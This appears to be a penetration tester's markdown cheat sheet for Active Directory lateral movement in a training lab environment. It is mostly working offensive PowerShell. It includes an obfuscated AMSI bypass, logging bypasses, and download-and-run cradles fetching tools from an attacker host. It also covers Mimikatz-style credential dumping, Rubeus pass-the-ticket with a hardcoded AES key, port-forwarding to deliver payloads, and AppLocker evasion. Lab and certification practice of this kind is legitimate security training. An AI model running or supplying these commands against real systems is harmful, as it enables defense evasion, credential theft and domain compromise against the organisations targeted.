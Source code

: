 
> [!NOTE] **NOTE**
> **REVIEW WHAT PRIVILEGES A USER HAS AFTER COMPROMISE** (BloodHound - PowerView)
> 
> ```powershell
>  Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}

```powershell
ls env
```

```powershell
iex (iwr http://172.16.100.48/sbloggingbypass.txt -useb)

$null | winrs -r:dcorp-appsrv powershell -c "iex (iwr http://172.16.100.48/sbloggingbypass.txt -useb);iex (iwr http://172.16.100.48/amsibypass.txt -useb);iex (iwr http://172.16.100.48/Invoke-MimiEx-vault.ps1 -useb);"
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Review AppLocker settings
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

```powershell
iex(iwr 'http://172.16.100.48/PowerView.ps1' -useb)
iex(iwr 'http://172.16.100.48/Invoke-SessionHunter.ps1' -useb)
iex(iwr 'http://172.16.100.48/Find-PSRemotingLocalAdminAccess.ps1' -useb)
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```

### Lateral 1 (Local Admin)
Add port forward to machine to forwards to webserver - downloading executable is bad
```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-appsrv\C$\Users\Public\Loader.exe

$null | winrs -r:dcorp-appsrv "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48"
```

Download from local loopback
```powershell
$null | winrs -r:dcorp-appsrv "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::evasive-keys exit"
```

Note down the `aes256_hmac` and the cleartext credentials 
Use Rubues on attacking machine
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

This will create a logon type 9 so the new credentials will only be used when accessing domain resources

```powershell
net use A: \\TSCLIENT\Tools

A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
cd C:\Users\Public; Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```
### Lateral 2 (Local Admin + AppLocker)
Review AppLocker settings
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Copy to AppLocker safe folder - can't dot source
```powershell
copy C:\Users\Public\Invoke-MimiEx-keys.ps1 \\dcorp-adminsrv\c$\'Program Files'

copy C:\Users\Public\Invoke-MimiEx-vault.ps1 \\dcorp-adminsrv\c$\'Program Files'

.\Invoke-MimiEx-keys.ps1
.\Invoke-MimiEx-vault.ps1

& 'C:\Program Files\Invoke-MimiEx-keys.ps1'
& 'C:\Program Files\Invoke-MimiEx-vault.ps1'
```

> **Note**: If clear text creds are found, use `runas` to open cmd 
```powershell
runas /user:dcorp\srvadmin /netonly cmd
```

```powershell
A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```